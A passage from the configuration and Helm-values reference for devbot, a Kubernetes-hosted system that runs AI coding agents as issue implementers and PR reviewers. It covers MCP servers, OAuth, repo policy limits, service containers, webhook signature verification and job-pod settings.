| `agents.review.aws.region`, `agents.review.aws.auth` | | - | The same for the reviewer. Without its own `aws`, the reviewer isn't on Bedrock, and doesn't take a Bedrock implementer's model. |
| `agents.implement.mcp_servers` | list of `mcp_servers` names | `[]` | The [MCP servers](#mcp-servers) the implementer's agent gets. A name outside `mcp_servers`, or listed twice, stops devbot at startup, as does an `sse` server for a role on `codex`. A repo can narrow the list or turn it off, never add to it. |
| `agents.review.mcp_servers` | list of `mcp_servers` names | `[]` | The same for the reviewer, chosen on its own: a reviewer might get docs but no browser. |
| `mcp_servers` | map of name to server | `{}` | The deployment's catalog of [MCP servers](#mcp-servers), keys below. Only the install defines servers; a name is letters, digits and dashes. A server no role lists is never used. |
| `mcp_servers.<name>.type` | `http` \| `sse` | - | The transport: `http` is streamable HTTP, `sse` the older HTTP+SSE (Claude Code only; Codex speaks streamable HTTP alone). `stdio` isn't supported: a stdio server would run inside the agent container, with the model. Anything else stops devbot at startup. |
| `mcp_servers.<name>.url` | URL | - | The server's `http` or `https` endpoint, e.g. `https://mcp.example.com/context7/mcp`. The job pods must be able to reach it (see [MCP egress](#mcp-egress)). |
| `mcp_servers.<name>.headers` | map of header to env var | - | **Refused at startup.** A header's value, an API key say, would be sent by the agent CLI from the agent container, where the model can read it. Use a server that needs no credential and is reachable only from the job pods. See [MCP credentials](#mcp-credentials). |
| `mcp_servers.<name>.allowed_tools` | list of tool names | all | The only tools of the server the agent may call. Codex only: a server that sets it, given to a role on `claude`, stops devbot at startup (see [Tool restrictions](#tool-restrictions)). |
| `mcp_servers.<name>.disabled_tools` | list of tool names | none | Tools of the server the agent may not call. |
| `listen` | addr | `:8080` | serve's listen address: webhooks, the connectors and, in oauth mode, the OAuth endpoints. It may be public. The chart's serve container port `http`, its probes and its Service follow it. |
| `metrics_addr` | addr | `:9090` | serve's `/metrics` listener, apart from `listen` because the metrics name repos. Keep it off the public network. The chart doesn't scrape it or create a ServiceMonitor: it annotates the serve pod with `prometheus.io/scrape`, `prometheus.io/port` and `prometheus.io/path`, for a Prometheus that discovers pods by those annotations. |
| `trusted_proxies` | list of CIDRs or addresses | `[]` | The proxies in front of serve. A request from one of them has its client address taken from `X-Forwarded-For`: the nearest hop that isn't itself a trusted proxy. It is used only for the per-address limits: the [OAuth rate limits](#rate-limits) and [device-code entry](connectors.md#the-device-flow-and-phishing). A request from an untrusted peer is its own address, whatever header it sends; one through a trusted proxy that names no client gets no per-address limit, rather than one shared by everyone behind the proxy. List every hop that appends to the header, and only those: see [Behind a proxy](#behind-a-proxy). The chart sets it from `virtualService.trustedProxies` when `virtualService.enabled`, `auth.mode` is `oauth` and `config` doesn't set it. |
| `allowed_origins` | list of origins | `[]` | Browser origins (`https://chat.example.com`, no path) whose pages may call `/mcp` and `/api`, besides `auth.resource_url`'s own. A request with any other `Origin` header gets a `403`, and a `POST` there must be `Content-Type: application/json` (else `415`), so a web page can't drive the connectors through someone's browser. Requests without `Origin` (every non-browser client, and a browser's same-origin reads) are unaffected; [`allowed_hosts`](#dns-rebinding) covers the reads. See [Browsers](connectors.md#browsers). |
| `allowed_hosts` | list of host names | `[]` | auth mode `none`: the host names, besides `auth.resource_url`'s and `allowed_origins`', that `/api`, `/mcp` and `/ui` answer at. A request whose `Host` is any other name gets `421`; IP addresses and `localhost` are always allowed. The chart adds the Service's in-cluster names (`<release>`, `<release>.<namespace>`, `.svc`, `.svc.cluster.local`), `virtualService.host` and `ingress.host`. See [DNS rebinding](#dns-rebinding). |
| `webhook_max_bytes` | int | `5242880` (5 MiB) | The largest webhook body serve reads. A bigger one gets a `413` before its signature is checked, counted as `result="too_large"`. |
| `reconcile_interval` | duration | `2m` | How often serve re-reads every item carrying a devbot label. Lower means faster recovery from lost webhooks, at the cost of more forge API calls: a fixed number of searches per provider per pass (14: one per state label, open and closed, `devbot/needs-human` open only, and one for PRs labelled `devbot/ready`), however many repos there are, plus a re-read per item found. On GitHub each search is one search API query per installation, more only when one has over 1,000 results, and those count against the search limit of 30 a minute per installation; the installations' repos are listed once an hour or after an installation webhook, not per pass. See Finding work under [GitHub](#github). |
| `event_retention` | duration | `336h` | How long the event feed keeps events. A client whose cursor is older gets `cursor_expired` and should fall back to `list_tasks`. |
| `eval_lock_ttl` | duration | `5m` | Longest one evaluation of a task holds that task's lock. Evaluations of one task never overlap, across serve, jobs and reconcile; a trigger that finds the lock held asks the holder to evaluate once more when it finishes. Each pass of an evaluation is cancelled at four fifths of it, so one held up by the forge (waiting out a rate limit, say) stops before another can take the lock, and is tried again later. Keep it well above a normal evaluation (a few seconds, plus a merge). |
| `leader_lease` | duration | `15s` | How long serve's [leader](#high-availability) holds its lease between renewals (every third of it). A leader that dies leaves the reconcile loop, delayed-job release and subscribers stopped for at most this long before another replica takes over; one that shuts down hands over at once. Shorter fails over sooner, at a few more Redis calls; keep it well above a Redis failover's pause, or a replica steps down for nothing. |
| `backoff.base` | duration | `1m` | First delay after the model hits a usage limit, or after a merge fails for a reason that may pass (a timeout, a server error, a rate limit, the forge still checking the PR). |
| `backoff.cap` | duration | `1h` | Longest delay. The delay doubles per consecutive limit or merge failure, up to this. A reset time the limit message gives overrides it. |
| `backoff.max_hold` | duration | `24h` | Furthest ahead a reset time the limit message gives can park a job and hold the fleet. A later reset is held to this, then tried again. |
| `backoff.max_retries` | int | `10` | Consecutive usage-limit retries, or merge failures, before a task stops at `needs-human`. |
| `claude.command` | string | `claude` | The `claude` harness: the Claude Code binary the agent runs. |
| `claude.extra_args` | list | `[]` | The `claude` harness: extra arguments for every `claude -p` run. |
| `codex.command` | string | `codex` | The `codex` harness: the Codex CLI binary the agent runs. |
| `codex.extra_args` | list | `[]` | The `codex` harness: extra arguments for every `codex exec` run, after devbot's own flags. |
| `workdir` | path | `/work` | The workspace shared between the harness and the agent. |
| `docker.mode` | `""` \| `dind` | `""`; the chart renders `docker.mode` | Which [Docker daemon](#docker) a repo with `docker: true`, or one [detected](#docker) as needing it, gets in its runs, or none. serve queues such a repo's jobs on lists of their own (`devbot:q:implement-docker`, `devbot:q:review-docker`), which only the chart's `-docker` ScaledJobs take; with none, a repo's `docker` is ignored. The chart renders it from the Helm value `docker.mode`: a `config.docker` of any kind fails `helm install`. |
| `docker.detect` | bool | `true` with `docker.mode` set; the chart renders `docker.detect` | A repo whose policy leaves `docker` unset gets a [Docker daemon](#docker) when its task's base branch shows its tests start containers ([the signals](devbot-yaml.md#docker)). `false`: only `docker: true` counts. Without `docker.mode` there is no detection. The chart renders it from the Helm value `docker.detect`: a `config.docker` of any kind fails `helm install`. |
| `audit.transcript` | bool | `false` | Also write every model run's full transcript (Claude Code's `stream-json` events, Codex's `--json` events) to the harness container's stdout, one [audit record](#audit-logging) per line, redacted. Off by default: transcripts are large, and hold whatever the model read, source code included. |
| `audit.transcript_max_bytes` | int | `4194304` (4 MiB) | With `audit.transcript`, the most of one run's transcript written. Lines past it are dropped, and the run's `agent.run` record says `transcript_truncated`. |
| `ci_failures.log_lines` | int | `150` | How much of a failed job's log (Gitea Actions, GitHub Actions) a [CI fix round](#what-ci-said) and the reviewer are shown: its last this many lines. Lines over 4 KiB are cut. |
| `ci_failures.max_bytes` | int | `65536` (64 KiB) | The most of [what CI said](#what-ci-said) about all a PR's failed checks together, logs, check run output and annotations, put in one run's context. A log over what is left keeps its end; checks past the cap are named and left out. |
| `auth.mode` | `none` \| `oauth` | `none` | How connector callers (MCP, `/api`) are identified. `none`: every caller is `anonymous_principal`, and **no forge permission applies to them**, so only on a trusted network. `oauth`: every caller signs in through the forge and acts on it as themselves. See [Connector auth](#connector-auth). |
| `auth.resource_url` | URL | - | oauth: devbot's public base URL, as clients reach it, e.g. `https://devbot.example.com`. The issuer and audience of its tokens, and the base of `/oauth/callback`, the forge app's redirect URI. Must be `https` (plain `http` only to `localhost`). Serve it at the root of a host. |
| `auth.provider` | string | the only provider | oauth: the `providers[].name` people sign in with. Tasks on other providers are invisible to them. |
| `auth.client_id_env` | string | - | oauth: env var holding the client ID of devbot's OAuth app on that forge. On GitHub, the sign-in App's: the implementer App by default (see [The forge's OAuth app](#the-forges-oauth-app)). |
| `auth.client_secret_env` | string | - | oauth: env var holding that app's client secret. |
| `auth.key_env` | string | - | oauth: env var holding the key (at least 32 bytes) that encrypts people's forge tokens at rest. |
| `auth.previous_key_env` | string | - | oauth: env var holding the previous key during a [rotation](#rotating-the-auth-key). It only decrypts. |
| `auth.access_token_ttl` | duration | `1h` | oauth: lifetime of devbot's access tokens. At least `1m`. |
| `auth.refresh_token_ttl` | duration | `720h` | oauth: lifetime of devbot's refresh tokens, which rotate on every use. A sign-in nobody uses for this long ends. |
| `auth.refresh_reuse_grace` | duration | `1m` | oauth: how long a refresh token just rotated, presented again by the same client, gets back the same new tokens instead of ending the sign-in, so processes sharing one stored sign-in can refresh at once (see [connectors](connectors.md#refresh-tokens-and-shared-sign-ins)). `0` makes any reuse end the sign-in. At most `auth.access_token_ttl`. |
| `auth.dynamic_device_grant` | bool | `false` | oauth: whether dynamically registered clients, which is every client, may use the device grant (`devbot login`). Device codes can be phished, so it is off unless the install opts in. Off, devices' existing sign-ins end at their next refresh, including those of clients also registered for the authorization code flow. On without `trusted_proxies`, serve logs a warning at startup: behind a proxy, the device-code limit is one for everyone. See [the device flow](connectors.md#the-device-flow-and-phishing). |
| `auth.rate_limits.register.per_minute`, `auth.rate_limits.register.burst` | number, int | `10`, `20` | oauth: per-address token bucket on `POST /oauth/register`: this many requests a minute on average, up to `burst` at once. See [Rate limits](#rate-limits). |
| `auth.rate_limits.authorize.per_minute`, `auth.rate_limits.authorize.burst` | number, int | `30`, `30` | oauth: the same for `GET /oauth/authorize` and the web UI's `/ui/login`, which share one bucket. |
| `auth.rate_limits.device_authorization.per_minute`, `auth.rate_limits.device_authorization.burst` | number, int | `10`, `10` | oauth: the same for `POST /oauth/device_authorization`. |
| `auth.rate_limits.token.per_minute`, `auth.rate_limits.token.burst` | number, int | `60`, `60` | oauth: the same for `POST /oauth/token`. A device polls it every 5 seconds while its person signs in. |
| `auth.rate_limits.device.per_minute`, `auth.rate_limits.device.burst` | number, int | `20`, `20` | oauth: the same for the device verification page, `GET` and `POST /oauth/device`. |
| `auth.rate_limits.clients_per_address` | int | `50` | oauth: how many clients one address may register in 24 hours, the time an unused registration lives. |
| `anonymous_principal` | string | `""` | auth mode `none`: the principal every connector call is accepted as (plus `/<X-Devbot-Client>` if that header is sent). Both must match `[A-Za-z0-9._-]{1,64}`; a call with any other label gets `400`. Empty refuses every call. The [web UI](#web-ui) reads as it too, and with it empty shows nothing (`401`). |
| `repos.opt_in` | `any` \| `file` | `any` | Which repos devbot works in. `any`: every repo both bots can write to, using `repos.defaults` when it has no `.devbot.yaml`. `file`: only repos that commit an enabled `.devbot.yaml`. A file with `enabled: false` opts a repo out either way. |
| `repos.allow` | list of globs | all | Repos devbot may work in, matched against `provider:owner/name` (`gitea:acme/*`, `github:kubernetes/*`). Empty means all. |
| `repos.deny` | list of globs | none | Repos devbot never works in. Wins over `allow`. |
| `repos.defaults` | map | built-in | The policy for repos without a `.devbot.yaml`, in `.devbot.yaml`'s own keys, laid over the built-in default (`automerge: false`, `require_checks: false`, the default `protected_paths` and `approvable_paths`, and `approval: person`; see [devbot-yaml.md](devbot-yaml.md#repos-without-devbotyaml)). Its `commits` block is also the base a repo's own `.devbot.yaml` overrides key by key (below). `repos.limits` caps it too. |
| `repos.defaults.commits.co_authored_by` | bool | unset: the agent CLI's default | Whether the commits devbot pushes credit the agent, for every repo whose `.devbot.yaml` doesn't set [`commits.co_authored_by`](devbot-yaml.md#commit-attribution) itself, a file or not. Unset, devbot leaves the agent CLI's attribution alone. `false`: no AI co-author trailer (`noreply@anthropic.com`, `noreply@openai.com`) and no "Generated with …" line in the commits or the PR devbot writes; a person's `Co-authored-by` stays. `true`: the co-author trailer of the CLI that ran is on every commit. devbot sets the CLI's own setting and enforces it on the commits before pushing them. In Helm values, `config.repos.defaults.commits.co_authored_by`, e.g. `config: {repos: {defaults: {commits: {co_authored_by: false}}}}`. |
| `repos.defaults.commits.trailers` | list of `Key: value` | `[]` | Trailers added, each once, to every commit devbot pushes, for every repo whose `.devbot.yaml` doesn't set [`commits.trailers`](devbot-yaml.md#commit-attribution) itself (`[]` there means none): a DCO's `Signed-off-by: devbot <devbot@example.com>`, say. Each must be one `Key: value` trailer, or devbot stops at startup. In Helm values, `config.repos.defaults.commits.trailers`. |
| `repos.limits.max_attempts` | int | `10` | The most `max_attempts` any repo's policy gets, from its `.devbot.yaml` or `repos.defaults`. A higher value is cut to this. Anyone who can push to a repo writes its `.devbot.yaml`, and the install pays for its runs. |
| `repos.limits.check_retries` | int | `5` | The most `check_retries` a repo gets. `0` allows none. |
| `repos.limits.max_review_rounds` | int | `10` | The most `max_review_rounds` a repo gets. |
| `repos.limits.max_rebase_rounds` | int | `30` | The most `max_rebase_rounds` a repo gets. |
| `repos.limits.timeouts.implement` | duration | `1h` | The longest `timeouts.implement` a repo gets, and the longest `integration.timeout`. Keep it below `jobs.implement.activeDeadlineSeconds`, so a run times out before its pod is killed. |
| `repos.limits.timeouts.review` | duration | `25m` | The longest `timeouts.review` a repo gets; below `jobs.review.activeDeadlineSeconds`. |
| `repos.limits.models` | list | `[]` (any) | The models a repo may pick in `agents.<role>.model`, and a task as its own model. Empty allows any. The deployment's own `agents.<role>.model` is always allowed; a repo that picks another model runs the deployment's, and a task that does runs the repo's, else the deployment's, with a comment on its issue naming the model refused and the one used. |
| `repos.limits.services.images` | list of prefixes and images | `[]` (none) | The images a repo's [services](#service-containers) may run: each image, short names expanded as Docker does (`postgres:17` is `docker.io/library/postgres:17`), must start with one of these prefixes, e.g. `[registry.example.com/, docker.io/openbao/]`, or be one of these images exactly. A prefix ends in `/` (a registry or a namespace), `:` (any tag of one repository, `docker.io/library/postgres:`) or `@` (any digest of one); an entry that ends otherwise must name one image by tag or digest (`docker.io/library/postgres:17`), and matches only that. An entry such as `ghcr.io/acme`, which would also match `ghcr.io/acme-evil/x`, is refused, as is one without any `/`. Empty allows no services. `["*"]`, on its own, allows every image: the other limits and the admission policy's pod-shape rules still apply, but anyone who can change a `.devbot.yaml` devbot reads then picks what the install pulls and runs, so set it only where you trust them with that; beside prefixes it is refused. A `.devbot.yaml` (or `repos.defaults`) asking for another image is refused with the rule it broke, not cut down like the other limits; the chart's admission policy holds serve to the same list. |
| `repos.limits.services.max` | int | `4` | The most services one run may have. `0` allows none: a repo that asks for services is stopped with the rule. |
| `repos.limits.services.cpu` | quantity | `2` | The most CPU one service may ask for, as its limit. |
| `repos.limits.services.memory` | quantity | `4Gi` | The most memory one service may ask for, as its limit. `services.resources.limits` must be within both ceilings. |
| `repos.limits.docker` | bool | whether `docker.mode` is set | `false` gives no repo a [Docker daemon](#docker), whatever its `docker` key says or detection finds. `true` without `docker.mode` stops devbot at startup. |
| `repos.limits.pull_requests.enabled` | bool | `true` | `false` lets no repo hand devbot a PR it didn't open ([Handing devbot an existing PR](forge.md#handing-devbot-an-existing-pr)), whatever its `pull_requests.enabled` says: a `devbot/ready` on a PR gets a short comment saying PR adoption is off for the repo, and nothing is queued. `true` leaves it to each repo: its `.devbot.yaml`, or `repos.defaults.pull_requests.enabled` (default `true`) for repos without one. |
| `repos.limits.pull_requests.forks` | bool | `true` | `false` lets no repo hand devbot a PR from a fork ([PRs from forks](forge.md#prs-from-forks)), whatever its `pull_requests.forks` says: a `devbot/ready` on one gets a short comment saying PRs from forks aren't adopted in the repo, and nothing is queued. Same-repo PRs are still carried where `pull_requests.enabled` allows. `true` leaves it to each repo: its `.devbot.yaml`, or `repos.defaults.pull_requests.forks` (default `true`) for repos without one. Forks are only ever adopted where PR adoption itself is on. |
| `ui.enabled` | bool | `false` | Serve the read-only [web UI](#web-ui) at `/ui/` on `listen`. Off, its routes don't exist. |
| `ui.grafana_url` | URL | `""` | The deployment's Grafana dashboard, linked from every UI page. No link when empty. |
| `metrics.cost_labels` | list of `repo`, `owner`, `requester` | `[repo, owner]` | The attribution labels on the cost, token and duration metrics, after their own ([Cost and usage reporting](#cost-and-usage-reporting)): `repo` is `provider:owner/name`, as on `devbot_jobs_total`, `owner` the repo's owner or org, `requester` who asked for the task. Each multiplies those metrics' series, so leave `requester` out where many people file tasks. `[]` for none. Changing it starts new series; the old ones stop being exported. |
| `metrics.static_labels` | list of label keys | `[]` | Keys of repos' static [`labels`](devbot-yaml.md#keys) to put on the same metrics too, each as `label_<key>` (`team` makes `label_team`), after the cost labels. A repo without the key has `""`. Static labels are on pods and logs whether listed here or not. |
| `pod_labels.enabled` | bool | `false`; the chart renders `podLabels.enabled` (`true`) | serve labels each running job pod with its job's attribution, for cost tools that allocate by pod label (see [Cost and usage reporting](#cost-and-usage-reporting)). serve needs a ServiceAccount token that may get and patch pods in its namespace, which the chart gives it; without one, serve doesn't start. |
| `pod_labels.instance` | string | -; the chart renders the release name | The `app.kubernetes.io/instance` of the job pods serve may label. Required with `pod_labels.enabled`. A lease naming any other pod is left alone. |
| `services.enabled` | bool | `false`; the chart renders `services.enabled` (`false`) | serve starts each run's [service containers](#service-containers). serve needs a ServiceAccount token that may create, list and delete pods (and NetworkPolicies) in its namespace, which the chart gives it; without one, serve doesn't start. Off, a repo that asks for services is stopped with a message saying so. |
| `services.instance` | string | -; the chart renders the release name | The `app.kubernetes.io/instance` of the job pods that get services, and of the service pods serve makes. Required with `services.enabled`. A lease naming any other pod gets none. |
| `services.ready_timeout` | duration | `5m` | How long a run's services have, from the pod's creation, to be pulled, started and ready the first time. Past it, the task stops with what they were waiting on. |
| `services.resources.requests.cpu`, `services.resources.requests.memory` | quantity | `100m`, `256Mi` | A service container's requests. One whose limit is below them gets its limit as its request. |
| `services.resources.limits.cpu`, `services.resources.limits.memory` | quantity | `1`, `1Gi` | A service container's limits when its `.devbot.yaml` entry sets no `resources`. |
| `services.resources.limits.ephemeral_storage` | quantity | `2Gi` | Every service container's `ephemeral-storage` limit (its writable layer, logs and scratch files), so no service can fill its node's disk; a `.devbot.yaml` can't change it. Kubernetes requests the same, for scheduling. Past it the kubelet evicts the service pod, which stops the run as a service that died does. |
| `services.active_deadline.implement`, `services.active_deadline.review` | duration | `70m`, `30m`; the chart renders `jobs.<role>.activeDeadlineSeconds` | The service pod's `activeDeadlineSeconds`, by its run's role, so it stops by itself if serve is gone when the run ends. |
| `services.service_account` | string | the namespace's `default`; the chart renders `<release>-services` | The service pods' ServiceAccount. They mount no token either way. |
| `services.user_namespaces` | bool | `false`; the chart renders `jobs.userNamespaces` | `hostUsers: false` for service pods. |
| `services.runtime_class_name` | string | `""`; the chart renders `jobs.runtimeClassName` | The service pods' RuntimeClass. |
| `services.node_selector` | map | `{}`; the chart renders `jobs.nodeSelector` | Where service pods run. |
| `services.tolerations` | list | `[]`; the chart renders `jobs.tolerations` | The service pods' tolerations, as the pod spec has them. |
| `services.affinity` | map | `{}`; the chart renders `jobs.affinity` | The service pods' affinity, as the pod spec has it. |
| `services.network_policy` | bool | `false`; the chart renders `networkPolicy.enabled` | serve gives each service pod a NetworkPolicy admitting its own run's job pod, at its ports, and nothing else. |
| `services.image_pull_secrets` | list | `[]`; the chart renders `imagePullSecrets`'s names | The Secrets, by name, each service pod's `imagePullSecrets` names, so the kubelet can pull service images from private registries. Only the pod spec names them: no service container gets one. The chart's admission policy lets serve name these and no other Secret. |
| `subscribers` | list | `[]` | Outbound event delivery, keys below. |
| `subscribers[].name` | string | - | Identifies the subscriber's cursor in Redis. A new subscriber starts from "now". |
| `subscribers[].url` | URL | - | Receives `POST`s of single events as JSON. |
| `subscribers[].secret_env` | string | - | Env var holding the HMAC key. Each delivery is signed with the time it was sent, in `X-Devbot-Signature: t=<unix seconds>,sha256=<hex>`; see [Verifying deliveries](#verifying-deliveries). |
| `subscribers[].types` | list | all | Event types to deliver. |
| `subscribers[].origin_prefix` | string | all | Only events for tasks filed with this origin prefix. |

Delivery is at least once and in order: a subscriber that fails (no
answer, a `5xx`, `408`, `425` or `429`) is retried with backoff, without
skipping ahead. Any other `4xx` refuses that event for good: serve logs it,
counts it in `devbot_subscriber_rejected_total`, and goes on to the next
event, so one event a receiver can't take doesn't hold up the rest. A
receiver that answers `401` or `403` to every event (a wrong secret, say)
thus misses them all; alert on that counter. The receiver should dedupe on
`X-Devbot-Event-Id`.

### Verifying deliveries

With `secret_env` set, every delivery carries

```
X-Devbot-Signature: t=1800000000,sha256=5d41402abc4b2a76b9719d911017c592...
```

where `t` is when it was sent, in Unix seconds, and `sha256` is the hex
HMAC-SHA256, keyed with the secret, of `t`, a `.`, and the raw body:
`1800000000.{"id":"...","type":"task.filed",...}`. A receiver should:

1. Split the header on `,` and each part on the first `=`, taking `t` and
   `sha256`.
2. Refuse the delivery if `t` is more than 5 minutes from its own clock.
3. Compute the HMAC of `<t>.<body>`, over the bytes as received, and compare
   it with `sha256` in constant time.

The timestamp is inside the signature, so a captured delivery can't be
replayed after the window, nor with a fresh `t`. Within the window, dedupe
on `X-Devbot-Event-Id`, which delivery needs anyway. Each retry is signed
again with its own time, so a delivery that waited out a long backoff still
verifies.

## Helm values

| Value | Default | Meaning |
|---|---|---|
| `image.repository`, `image.tag`, `image.pullPolicy` | `devbot`, `""`, `IfNotPresent` | The base image, with no agent CLI, for serve, the harness and the model proxy (see [Agent images](#agent-images)). Point `image.repository` at where it is published. An empty `image.tag` is the chart's appVersion (see [Versions](#versions)). |
| `image.agents.<harness>.repository`, `image.agents.<harness>.tag` | codex: `devbot-codex`, claude: `""`; `""` | The agent sidecar's image by harness: a role's sidecar runs the entry for its harness (`config.agents.<role>.harness`). An empty tag is `image.tag`'s. The released chart's codex entry is the published codex image. devbot publishes no claude image, so a role on `claude` needs `image.agents.claude.repository` set to [the one you build](#building-the-claude-image), or the chart refuses to render. The chart sets `DISABLE_AUTOUPDATER=1` in the sidecar of a role on `claude`. |
| `commonLabels` | `{}` | Extra labels on every object the chart creates. |
| `imagePullSecrets` | `[]` | Secrets, created out of band (`kubectl create secret docker-registry`, see [Building the claude image](#building-the-claude-image)), that the kubelet pulls images from private registries with: `[{name: regcred}]`, or `[regcred]`. Set on every pod the chart runs (serve, Redis, the job pods of every ScaledJob, the TUN device plugin) and rendered into `config.services.image_pull_secrets` for the [service pods](#service-containers) serve makes, unless `config` sets `services` itself. The service pods' admission policy allows exactly these names. Only pod specs name them: no container mounts one. |
| `config` | see above | Rendered into `config.yaml`. |
| `secrets.forge` | `devbot-forge` | The forge credentials: tokens (Gitea) or App private keys (GitHub), and the webhook secrets. serve gets the whole Secret with `envFrom`. A job pod's harness gets one key of it per provider, its own bot's (`implementer_*_env` in implement pods, `reviewer_*_env` in review pods), and never the webhook secret (see [Security](#security)). |
| `secrets.agents` | `{claude: devbot-claude}` | One Secret per agent harness, holding its model credential. A job pod's **model proxy only** gets the one for the harness its role runs (`config.agents.<role>.harness`), with `envFrom`; the agent sidecar the model runs in never does (see [Model proxy](#model-proxy)). A role whose harness has no entry fails the install, unless the role is on Bedrock with `aws.auth` `irsa` or `pod_identity`, which mount no Secret. |
| `secrets.auth` | `""` | Optional Secret mounted with `envFrom` into **serve only**, for `auth.mode: oauth`: the forge OAuth app's client ID and secret, and the auth key. |
| `secrets.redis` | `""` | Optional Secret for a Redis whose Sentinels want a password or whose TLS wants a CA of its own: one key per `config.redis` `sentinel.password_env` and `tls.ca_env`. Each key goes to serve and the harness as env, never to the agent, and to KEDA through the TriggerAuthentication `<release>-redis`. The users' passwords are in `redis.existingSecret`. The chart refuses to render when `config.redis` names a key without it, or it is set and `config.redis` names none. |
| `harnessEnv` | `{}` | Extra env for the harness, e.g. `DEVBOT_COMMIT_EMAIL_GITEA`. |
| `agentEnv` | `{}` | Extra env for the agent sidecar, passed on to the CLI, the model's commands and the checks (the chart lists its keys in `DEVBOT_PASS_ENV`): Claude Code's OTEL settings, say, or a [registry mirror](#a-registry-mirror)'s. The model reads it, so never a secret; a model credential here is dropped anyway. |
| `ui.enabled`, `ui.grafanaUrl` | `false`, `""` | Rendered into `config.ui` (`enabled`, `grafana_url`) unless `config` sets `ui` itself. See [Web UI](#web-ui). |
| `podLabels.enabled` | `true` | Rendered into `config.pod_labels` (with `instance`, the release name) unless `config` sets it. On, serve runs as its own ServiceAccount, `<release>-serve`, with its token mounted and a Role that may `get` and `patch` pods in the namespace, held by a ValidatingAdmissionPolicy to devbot's own labels and annotations on this release's job pods, to [label job pods](#labelling-job-pods). Off, serve mounts no token and has no Role. Job pods mount no API token either way. |
| `podLabels.allowUnrestrictedPatch` | `false` | On a cluster without ValidatingAdmissionPolicy the chart refuses to install with `podLabels.enabled`, since nothing would stop serve patching any pod in the namespace. `true` installs the Role without the policy; see [Security](#security). |
| `services.enabled` | `false` | Rendered into `config.services` (with the release name as `instance`, `<release>-services` as its ServiceAccount, `imagePullSecrets`, and `jobs.*`'s `userNamespaces`, `runtimeClassName`, `nodeSelector`, `tolerations`, `affinity` and `<role>.activeDeadlineSeconds`, and `networkPolicy.enabled`) unless `config` sets `services` itself. On, serve's Role may also `list`, `create` and `delete` pods, and NetworkPolicies with `networkPolicy.enabled`, held by ValidatingAdmissionPolicies to this release's [service pods](#service-containers); the chart adds the `<release>-services` ServiceAccount (no token) and a NetworkPolicy for service pods. Needs ValidatingAdmissionPolicy: without it the chart refuses to install. |
| `services.readyTimeout`, `services.resources` | `5m`; requests `100m`/`256Mi`, limits `1`/`1Gi`, `ephemeral_storage: 2Gi` | Rendered into `config.services.ready_timeout` and `config.services.resources`. |
| `services.extraEgress` | `[]` | Raw NetworkPolicyEgressRules for service pods, which otherwise reach DNS alone. |
| `serve.replicas` | `1` | How many serve replicas. Every one serves webhooks, the connectors, OAuth and the UI; one at a time, the leader, runs the singleton loops. 2 or more for [high availability](#high-availability). Rollouts start the new pod before stopping an old one. |
| `serve.podDisruptionBudget.minAvailable` | `1` | With 2 or more replicas, a PodDisruptionBudget keeping this many up through node drains and upgrades. With one, there is no PDB, which would block every drain. |
| `serve.topologySpreadConstraints` | `[]` | Empty: with 2 or more replicas, spread them across nodes (`kubernetes.io/hostname`) and zones (`topology.kubernetes.io/zone`), `whenUnsatisfiable: ScheduleAnyway`. A list replaces that as it is, `labelSelector` included. |
| `serve.affinity` | `{}` | serve's pod affinity, as it is: for example a required `podAntiAffinity` so no two replicas share a node. |
| `serve.clusterIP` | `""` | Pin the Service's ClusterIP, for forges that allow-list webhook targets by IP (Gitea does). |
| `serve.resources` | small | |
| `redis.enabled`, `redis.image`, `redis.resources` | `true`, `redis:7.4.6-alpine`, 10m / 32Mi request, 256Mi limit | The bundled Redis: one pod, the simple default, with no anonymous access (see [Redis](#redis)). `false` to bring your own, managed or HA, set up in `config.redis`, with `redis.existingSecret`; give that one a `maxmemory` and `maxmemory-policy noeviction` too. |
| `redis.existingSecret` | `""` | Secret with the Redis users' passwords, keys `serve-password`, `harness-password` and `keda-password`. Empty: the chart generates `<release>-redis` and keeps its passwords across `helm upgrade` (but not across `helm template`, as with Argo CD: use your own there). Required with `redis.enabled: false`. |
| `redis.maxmemory` | `192mb` | The built-in Redis's `maxmemory`, with `maxmemory-policy noeviction`: once full it refuses writes rather than evicting keys, since sign-ins and the queue share it and evicting either would sign people out or drop jobs. Keep it below `redis.resources.limits.memory`, with room for Redis's own overhead. [Alert](#observability) before it fills. |
| `redis.persistence.enabled`, `.size`, `.storageClass` | `false`, `1Gi`, `""` | Keep the bundled Redis's data on a PersistentVolumeClaim, `<release>-redis`, as an append-only file synced every second. A restart keeps everything, sign-ins and transactions included; a node lost outright loses at most the last second's writes (see [Redis persistence](#redis-persistence)). Helm keeps the claim on uninstall. An empty `storageClass` is the cluster's default. |
| `redis.nodeSelector`, `redis.tolerations`, `redis.affinity` | `{}`, `[]`, `{}` | Where the bundled Redis's pod runs, passed to its pod spec as they are, like `jobs.nodeSelector`, `jobs.tolerations` and `jobs.affinity`. |
| `jobs.maxReplicaCount` | `1000` | KEDA's cap on concurrent job pods. Effectively unbounded: cluster capacity is the real limit, and extra pods wait in `Pending`. Lower it to throttle. |
| `jobs.pollingInterval` | `10` | Seconds between KEDA's queue checks. |
| `jobs.nodeSelector` | `{}` | Where job pods run, e.g. [dedicated nodes](#security). The released images are multi-arch (amd64 and arm64), so the default sends them to any node; job pods have only been tested on amd64 ([Tested environments](#tested-environments)). |
| `jobs.tolerations` | `[]` | Tolerations for job pods, e.g. for the taint on nodes kept for them. |
| `jobs.affinity` | `{}` | Affinity for job pods, for placement `nodeSelector` can't express. |
| `jobs.topologySpreadConstraints` | one entry: `kubernetes.io/hostname`, `maxSkew: 1`, `ScheduleAnyway` | Spreads job pods across nodes. Kubernetes doesn't spread Job pods by default, so without it a burst of jobs lands on whichever node looks emptiest. An entry with no `labelSelector` gets one matching the implement and review pods of this release together. `[]` turns spreading off. |
| `jobs.runtimeClassName` | `""` | The RuntimeClass job pods run under, e.g. a gVisor (`runsc`) or Kata Containers one installed on the nodes. Empty: the cluster's default runtime. See [Security](#security). |
| `jobs.userNamespaces` | `true` | `hostUsers: false` for job pods, so root in the agent container is an unprivileged user on the node. Needs node support: Kubernetes 1.33 or later (earlier, the `UserNamespacesSupport` feature gate), a container runtime with idmapped mounts (containerd 2.0 or CRI-O 1.25), and a kernel whose filesystem under the kubelet's directory supports idmapped mounts for the job pods' emptyDir and ConfigMap volumes (ext4 and XFS from Linux 5.12, btrfs from 5.15); a tmpfs volume, such as the projected token IRSA and Pod Identity add, needs Linux 6.3. Tested on Linux 6.1 (see [Tested environments](#tested-environments)). On nodes without it the pods don't start; set `false` there. |
